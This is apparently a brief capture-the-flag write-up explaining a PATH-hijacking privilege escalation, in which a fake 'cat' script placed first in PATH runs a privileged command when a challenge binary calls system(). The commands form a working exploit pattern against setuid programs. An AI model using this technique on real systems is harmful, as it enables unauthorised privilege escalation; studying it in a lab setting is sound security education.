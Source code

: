 - `system()` depends on $PATH, we can set $PATH to decide where `cat` is
- in my home dir /home/iel44jez create a file cat:
```bash
vi cat

echo yoyo
/usr/local/bin/l33t

chmod +x cat
```
- then run the welcome file with that env
```bash
export PATH=/home/iel44jez
/var/challenges/welcome/welcome
```